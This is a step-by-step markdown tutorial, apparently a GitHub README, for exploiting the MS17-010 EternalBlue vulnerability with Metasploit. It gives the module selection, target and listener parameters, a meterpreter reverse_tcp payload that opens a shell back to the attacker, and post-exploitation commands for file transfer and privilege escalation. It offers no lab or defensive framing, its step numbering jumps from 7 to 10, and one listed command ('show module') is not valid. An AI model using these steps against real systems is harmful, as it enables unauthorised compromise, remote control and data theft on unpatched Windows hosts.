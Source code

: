 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```msfconsole```

Once inside Metasploit, you can search for the EternalBlue module using:

```show module```

##3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```search ms17-010```

##4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

`use exploit/windows/smb/ms17_010_eternalblue`

##5. Set Required Parameters

```Set RHOSTS <Target IP>```

Review other options that might need configuration using the `show options` command and set them accordingly. Common options include `LHOST`, `RPORT`, etc.
-----------------------------------------------------------------------------
| Parameter | Description                           | Example Usage         |
|-----------|---------------------------------------|-----------------------|
| RHOSTS    | Remote host(s) IP address(es)         | set RHOSTS 192.168.1.5|
| LHOST     | Local host listening IP for payloads  | set LHOST 192.168.1.2 |
| RPORT     | Remote port for the target service    | set RPORT 445         |
-----------------------------------------------------------------------------
##6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```set payload windows/meterpreter/reverse_tcp```

##7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```exploit```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the meterpreter prompt, indicating a successful compromise of the target system.

## 10. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands**: Execute system commands on the target system using 

```shell```
  
Gather System Information: Retrieve system information like system details, user information, etc. using commands such as `sysinfo`, `getuid`, etc.

File Operations: Manipulate files on the compromised system using commands like `download`, `upload`, `ls`, `cd`, etc.

Privilege Escalation: Attempt to elevate privileges on the target system using modules like `getsystem`, `migrate`, etc.


